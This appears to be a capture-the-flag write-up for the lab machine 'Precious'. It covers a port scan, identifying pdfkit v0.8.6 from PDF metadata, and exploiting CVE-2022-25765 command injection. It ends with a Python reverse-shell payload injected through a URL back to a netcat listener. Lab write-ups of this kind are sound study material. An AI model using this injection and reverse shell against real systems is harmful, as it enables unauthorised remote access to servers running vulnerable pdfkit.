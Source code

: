 # Precious

## Summary

* [Info Gathering](#info-gathering)

## Info Gathering
First thing let's scan for the open ports:
```
[vecio@vecio ~]$ nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 17:07 CEST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
We know that there are 2 services open: SSH service on the port 22 and an HTTP server on the default port 80.
We can check out the web server, so we add the IP address to the `/etc/hosts` file:
```
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1	localhost
::1		localhost
127.0.1.1	vecio.localdomain	vecio

10.10.11.189	precious.htb
```
We can now access the web server on the browser using its domain or the IP address.

The only functionality present is to convert a web page into a PDF file.
We can test that out by starting a python web server and trying to get its PDF file.
```bash
python -m http.server
```
We can now enter our IP address followed by the port which the python web server has been opened: `http://10.10.16.79:8000/` and get its PDF file.
We can get more information by reading the file metadata using the `Exiftool`, so `exiftool file.pdf`:
```
ExifTool Version Number         : 12.50
File Name                       : edlaxwm1d82couplf7vpkkm9b4nyht3g.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2023:03:26 17:12:58+02:00
File Access Date/Time           : 2023:03:26 17:13:44+02:00
File Inode Change Date/Time     : 2023:03:26 17:12:58+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
We can see that the file has been created by the `pdfkit v0.8.6` ruby package.
We can use Google to search some known vulnerabilities about this package.

## Exploiting
We find [CVE-2022-25765: Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) which allows us to inject a command if the URL is not sanitized.
Let's understand how the vulnerability works: an application could be vulnerable if it tries to render a URL that contains query string parameters with user input:
```ruby
PDFKit.new("http://example.com/?name=#{params[:name]}").to_pdf
```
If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF:
```ruby
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf
```
Calling `to_pdf` on the instance shows that the `sleep` command is indeed executing.
The `%20` is a URL-encoded space character, which allows the attacker to separate the injected command from the rest of the URL.
When PDFKit is used to generate a PDF from a URL, it first converts the URL into a command line argument string that is passed to a command line tool to generate the PDF.

So we can input the URL `` http://10.10.16.79:8000/?name=%20`sleep 5` `` to test the vulnerability and see that the operation takes 5 seconds to get the PDF file, so the website is vulnerable to this exploit.

## Reverse Shell
We can now execute a reverse shell script to get access to the server.
Let's start listening to connections on port `1234` using `Netcat`:
```
nc -lvnp 1234
```
now we can execute a python reverse shell using the exploit entering the following URL `http://10.10.16.79:8000/?name=%20\`export RHOST="10.10.16.79";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'\`` and get access to the server.
